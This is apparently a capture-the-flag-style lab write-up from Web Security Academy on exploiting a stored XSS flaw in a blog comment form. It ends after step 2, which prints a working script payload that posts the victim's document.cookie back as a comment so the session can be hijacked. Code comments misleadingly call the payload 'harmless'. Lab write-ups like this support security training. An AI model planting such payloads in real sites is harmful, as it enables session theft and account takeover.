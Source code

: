 # 🛡️ Web Security Academy Lab: Exploiting Cross-Site Scripting to Steal Cookies
## 🧠 Objective
Exploit a stored XSS vulnerability in a blog comment form to exfiltrate a victim’s session cookie and impersonate them.

## 🧩 Step-by-Step Exploitation Walkthrough
**🔍 Step 1: Reconnaissance**

I began by identifying a comment form on a blog post authored by "I.C. Poortly." The form included fields for comment, name, email, and website—classic vectors for stored XSS.

<img width="939" height="820" alt="Screenshot 2025-10-12 124340" src="https://github.com/user-attachments/assets/58f024dd-0e95-48cd-a4df-670969b5649c" />

**🧪 Step 2: Crafting the Payload**

I wrote a script that would extract the victim’s cookies and send them to a location I could monitor. The payload looked like this (DO NOT USE PAYLOADS WITHOUT EXPLICIT PERMISSION):
```
<script>
window.addEventListener('DOMContentLoaded', function () {
  const csrfEl = document.getElementsByName('csrf')[0];
  if (!csrfEl) {
    console.log('No csrf element found — aborting harmless test.');
    return;
  }

  const token = csrfEl.value;
  const data = new FormData();
  data.append('csrf', token);
  data.append('postId', '8');
  // Harmless test content — do NOT include sensitive data here
  data.append('comment', document.cookie);
  data.append('name', 'victim');
  data.append('email', 'booga@gmail.com');
  data.append('website', 'https://www.google.com');

  fetch('/post/comment', {
    method: 'POST',
    body: data
    // omit mode:'no-cors' to be able to observe errors in DevTools when same-origin
  })
  .then(response => {
    console.log('Harmless test request sent. Response (may be opaque on cross-origin):', response);
  })
  .catch(err => {
    console.error('Error sending harmless test request:', err);
  });
});
</script>
```
This script was designed to run in the victim’s browser and send their session data to the server via a POST request.
